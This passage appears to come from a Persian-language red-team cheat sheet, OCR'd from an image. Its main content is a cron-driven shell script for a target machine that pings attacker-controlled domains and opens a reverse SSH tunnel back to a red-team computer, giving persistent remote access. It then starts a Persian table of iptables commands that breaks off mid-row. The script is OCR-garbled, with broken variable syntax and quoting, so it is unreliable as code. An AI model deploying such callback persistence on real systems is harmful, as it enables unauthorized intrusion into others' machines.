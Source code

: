 ```text
Set up script in crontab to callback every X minutes.
Highly recommend YOU
set up a generic user on red team computer (with no shell privs).
Script
will use the private key (located on callback source computer) to connect
to a public key (on red team computer). Red teamer connects to target via a
local SSH session (in the example below, use #ssh -p4040 localhost)
#!/bin/sh
# Callback: script located on callback source computer (target)
killall ssh /dev/null 2 &1
sleep 5
REMLIS-4040
REMUSR-user
HOSTS=''domainl.com domain2.com domain3.com''
for LIVEHOST in SHOSTS;
do
    COUNT=S(ping -c2 $LIVEHOST | grep 'received' | awk -F','{ print $2 } '
    | awk ' ( print $1 | ')
    if [ [ $COUNT -gt 0 ] ] ; then
    ssh -R $(REMLIS}:localhost:22 -i
    "/home/$(REMUSR}/.ssh/id rsa" -N $(LIVEHOST} -1 $(REMUSR}
fi
```

## دستور Iptables

استفاده iptable برای ipv6

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>دستور</b>
      </th>
      <th style="text-align:left"><b>توضیح</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">iptables-save -c file</td>
      <td style="text-align:left">استخراج قوانین iptable و ذخیره در فایل</td>
    </tr>
    <tr>
      <td style="text-align:left">iptables-restore file</td>
      <td style="text-align:left">بازیابی قوانین iptables</td>
    </tr>
    <tr>
      <td style="text-align:left">iptables -L -v --line-numbers</td>
      <td style="text-align:left">لیست کلیه قوانین به همراه شماره خط آن</td>
    </tr>
    <tr>
      <td style="text-align:left">iptables -F</td>
      <td style="text-align:left">راه اندازی مجدد کلیه قوانین</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>iptables -P INPUT/FORWARD/OUTPUT</p>
        <p>ACCEPT/REJECT/DROP</p>
      </td>
      <td style="text-align:left">تغییر سیسات در صورت عدم احراز قوانین</td>
    </tr>
    <tr>
      <td style="text-align:left">iptables -A INPUT -i interface -m state --state RELATED,ESTABLcSHED -j